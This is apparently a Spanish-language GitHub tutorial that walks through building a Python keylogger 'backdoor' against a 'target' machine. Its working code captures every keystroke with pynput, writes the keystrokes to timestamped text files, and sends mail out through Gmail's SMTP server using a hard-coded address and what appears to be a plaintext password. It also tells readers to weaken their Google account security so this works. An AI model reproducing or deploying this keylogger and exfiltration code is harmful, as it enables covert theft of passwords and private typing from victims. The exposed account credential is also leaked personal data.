 TARGET > PARROT OS (El backdoor se encuentra en la maquina Parrot)


* Requerimientos : Instalar pynput

```bash
pip install pynput
``` 
# Importante: reinicia tu editor de codigo despues de instalar pynput.

# Apreta el HackMode > ON!

```bash
from pynput.keyboard import Listener

def capturar_teclas(key):
    print(key)
    
with Listener(on_press=capturar_teclas) as l:
    l.join()
```   

![EMPEZAMOS A CAPTURAR](https://user-images.githubusercontent.com/97669969/159133261-b7100e64-e532-4f0b-a776-ee9ca6c859ae.png)
* Empezamos a capturar las teclas de nuestra target.



# Guardamos todo en un documento '.txt'.

```bash

from pynput.keyboard import Listener
import datetime

d = datetime.datetime.now().strftime("%Y-%m-%d_%H-%M-%S")

file = open('keylogger-{}.txt'.format(d),'w')

        
def capturar_teclas(key):
    
    key = str(key)
    if key == 'Key.enter':
        file.write("\n")
    elif key == 'Key.space':
        file.write(" ")
    elif key == 'Key.backspace':
        file.write('%BORRAR%')
    else:
        file.write(key.replace("'",""))
    print(key)

with Listener(on_press=capturar_teclas) as l:
    l.join()
```

![guradar txt](https://user-images.githubusercontent.com/97669969/159135961-8b358780-7b10-44d7-b568-703aa8a0b0d6.png)
* El documento .txt esta creado, incluso implementamos un segundo .txt con fechas y hora , diario.

# Envio de correo con Gmail.com
# HackMode TIP! : a partir de 30 de mayo del 2022 gmail bloquea todas las apps noseguras.
* PARA ESO : en tu cuenta de google debes Permitir el acceso de aplicaciones menos seguras: en 'SÍ'

![gmail no seguras](https://user-images.githubusercontent.com/97669969/159137846-683e2398-b806-4292-86c6-d71bc174b67d.png)


```bash
from http import server
import smtplib

mensaje = "Subject:Correo desde Target1 \nHola desde email.py"

server_smtp = smtplib.SMTP("smtp.gmail.com",587)

server_smtp.starttls()

server_smtp.login("deniseduranbybit@gmail.com","Deniseduran2@")

server_smtp.sendmail("deniseduranbybit@gmail.com","deniseduranbybit@gmail.com", mensaje)

server_smtp.quit()

print("Correo enviando correctamente")
```

![envio de correo parrot](https://user-images.githubusercontent.com/97669969/159138025-d4a906b7-e5dd-4f8b-af83-08a57512966b.png)



* Recibimos el correo desde nuestras !Targets!

![corre envio ubuntu](https://user-images.githubusercontent.com/97669969/159137793-d7097c7b-a3ce-4455-8231-265b10f91d10.png)



